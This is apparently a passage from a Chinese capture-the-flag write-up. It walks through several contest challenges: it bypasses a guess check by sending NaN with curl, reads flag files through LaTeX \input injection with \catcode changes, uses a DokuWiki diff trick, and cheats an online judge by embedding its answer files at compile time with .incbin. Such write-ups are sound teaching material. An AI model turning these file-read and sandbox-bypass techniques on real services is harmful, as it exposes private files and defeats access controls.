 根据 IEEE 754 标准，`NaN` 上的一切比较都是 `false`，这里的答案解析方式是接受 `NaN` 的，而 `NaN` 后 `isLess` 和 `isMore` 就恒为 `false`，然后就绕过去了。

去网页上试了试，发现不接受非数字输入，所以最后 `curl` 两行流了。

```shell
export TOKEN='<YOUR TOKEN>'
curl 'http://202.38.93.111:18000/state' -H "Authorization: Bearer ${TOKEN}" --data-raw '<state><guess>NaN</guess></state>'
curl -H "Authorization: Bearer ${TOKEN}" 'http://202.38.93.111:18000/state'
```

## LaTeX 机器人

### 纯文本

```latex
\texttt{\input{/flag1}}
```

### 特殊字符混入

根据文档，`\input` 的操作跟 C 的 `#include` 很像，直接把内容从文件 copy 过来然后当文档的一部分编译。搜了很久怎么在 document 里面插入新的 document 然后引入 `\verbatiminput`，然后发现一个命令 `\catcode`，可以修改一个字符的 category code，那直接把 `#` 和 `_` 都改成字符的类型就可以了。

```latex
\catcode`\_=11 \catcode`\#=11 \texttt{\input{/flag2}}
```

## Flag 的痕迹

打开 DokuWiki 官网，进任意页面的 revisions 随便玩一下就会发现，带参数 `do=diff` 就可以打开两个页面的 diff，回来对主页 diff 一下就做完了。

## 安全的在线测评

### 无法 AC 的题目

看了下判题脚本，`static.out` 文件并没有特殊的权限设置，猜测可以直接读，随便写个读文件的 C 代码就过了。

### 动态数据

重新审计判题脚本，发现实际的数据生成是脚本里面做的，然后 `gcc` 也是脚本起的，所以 `gcc` 有读数据的权限。想办法从编译下手。

首先第一个想到的是 `#include`，但是 `#include` 从工作原理上来说会对文件做操作，而 `dynamic.out` 都是两行的大数字，不是标准 C 文件，调了半个小时放弃。

然后胡乱搜索，最终发现了这篇[文章](http://elm-chan.org/junk/32bit/binclude.html)，里面提到可以用 `.incbin` 这个 inline asm 编译期包含文件。

然后这题就做完了？没有。由于我的汇编水平相比去年长进十分有限（$|\Delta| < \epsilon$），我照着这篇文章和 Stackoverflow 的好多回答抄的代码都 crash 了。然后我搜到了[这个项目](https://github.com/graphitemaster/incbin)，发现是 500 行的 header-only，直接 copy 交了，然后 WA 了。重新读了遍代码，发现是没判断输入，一把子全输出了,~~直接把打 ACM 的经验全部扔了~~，改改然后 fuzz 一下就过了。

```C
// 这里应该有上面仓库提到的 .h

#include <stdio.h>

INCTXT(stt, "./data/static.out");
INCTXT(dy0, "./data/dynamic0.out");
INCTXT(dy1, "./data/dynamic1.out");
INCTXT(dy2, "./data/dynamic2.out");
INCTXT(dy3, "./data/dynamic3.out");
INCTXT(dy4, "./data/dynamic4.out");

INCTXT(sttIn, "./data/static.in");
INCTXT(dy0In, "./data/dynamic0.in");
INCTXT(dy1In, "./data/dynamic1.in");
```